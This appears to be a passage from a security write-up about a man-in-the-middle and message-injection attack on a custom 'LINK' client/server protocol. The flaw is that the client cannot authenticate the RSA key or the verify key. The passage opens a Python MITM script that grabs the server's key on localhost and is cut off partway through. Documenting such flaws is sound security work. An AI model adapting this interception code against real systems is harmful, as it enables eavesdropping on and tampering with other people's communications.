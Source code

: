 If a hacker uses a MITM proxy server to manipulate the RSA key and hash while they are being transmitted to the client, the client has no mechanism to detect the forgery.<br>
This leads the client to trust the manipulated key, allowing the attacker to obtain the AES and the verify key and passively intercept all further communication.

| LINK Server               | Direction     | Hacker        | Direction     | LINK Client                       |
|:--------------------------|:-------------:|:-------------:|:-------------:|----------------------------------:|
| RSA Public Key & Hash     | ->            | Convert       | ->            | Modified RSA Public Key & Hash    |
| Create AES instance       | <-            | Convert       | <-            | Encrypted AES key                 |
| Create verify key         | ->            | Listen        | ->            | Create HMAC instance              |

## Tampering Attack / Message Injection Attack Theory
First, after successfully performing a MITM attack, if the attacker either modifies the verify key or uses the same key to generate valid hashes, they can forcibly inject specific messages into the communication with the client.<br>
This is possible because the client lacks a mechanism to verify the authenticity of the verify key.

## Exploit
I will now manually write the code due to the transcendent stupidity of ChatGPT, Deepseek, Gemini, and Copilot. `*sigh*`

```python
<!-- mitm.py -->
from socket import *
from threading import Thread

from Crypto.PublicKey import RSA
from Crypto.Random import get_random_bytes
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.Util.Padding import pad, unpad
import hashlib
import hmac
import os

import traceback

import logging
import time
import sys

IN_PORT_SERVER = 9999
IN_PORT_CLIENT = 9998

def start():
    try:
        print(f"[CONNECT] Connecting to the LINK Server...")
        s = socket(AF_INET, SOCK_STREAM)
        s.connect(("localhost", IN_PORT_SERVER))
        print(f"[CONNECT] Connected to the LINK Server")
        actual_rsa_hash = s.recv(1024)
        actual_rsa_key = s.recv(2048)

        print(f"[RSA EXCHANGE] Actual RSA SHA512 Hash: {actual_rsa_hash}")
        print(f"[RSA EXCHANGE] Actual RSA Public Key: {actual_rsa_key}")
    except:
        print(f"[RSA EXCHANGE] Error while getting severside RSA key:")
        traceback.print_exc()
        return

    try:
        print(f"[CONNECT] Waiting LINK Client to connect...")
```
